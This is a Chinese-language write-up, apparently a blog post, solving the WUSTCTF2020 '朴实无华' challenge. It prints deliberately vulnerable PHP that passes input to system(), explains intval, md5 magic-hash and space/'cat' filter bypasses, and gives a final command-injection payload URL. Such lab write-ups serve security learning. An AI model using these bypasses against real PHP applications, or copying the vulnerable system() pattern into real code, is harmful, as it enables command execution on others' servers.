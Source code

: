 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2021-04-16 15:33:32
categories: ['CTF']
tags: ['RCE']
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120232246.png
---
```


进入页面直接报错

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210416103737.png)

试试其他的地方，我的习惯是git泄露、请求头、robots.txt、hint.txt都看看。果然在robots下有内容

> User-agent: *
> Disallow: /fAke_f1agggg.php

访问`fAke_f1agggg.php`并且抓包，在响应头里有提示。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20210416105630.png)

访问`fl4g.php`才正式开始，源码如下：

```php
<img src="/img.jpg">
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

一关一关的**bypass**。

第一关

重点在`intval`函数，intval函数有个特性:

>  直到遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时(\0)结束转换

这里需要num的值小于2020，加一后值大于2021，可以使用科学计数法方法绕过。构造payload`2e9`，遇到第一个函数转换时，因为是以2开头下一位是字符，会直接被截取为2；遇到第二个函数，因为使用了`$num + 1`会进行类型转换，2e9会先使用科学计数法计算出值并+1。

第二关

需要一个md5值，对这个值再次使用md5加密以后，使用**弱类型**比较，和原来的值相同。md5的一个弱类型比较绕过：

> PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以“0E”开头的，那么PHP将会认为他们相同，都是0。

使用脚本跑一下得到一个值：`0e215962017`。

最后一层，是一个`system`函数执行，但是在之前有一些过滤

* `strstr`函数匹配空格，可以使用${IFS}绕过（这个里面有更详细的：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)）
* `str_ireplace`会吧cat替换成wctf2020，所以不能使用cat命令，可以用：more、less、od、tail等等绕过，上面的博客里也有写道。

先使用ls查看下当前目录下的文件，发现一个名为`fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`读取得到flag。

最终payload：

```url
/fl4g.php?num=2e9&md5=0e215962017&get_flag=more${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

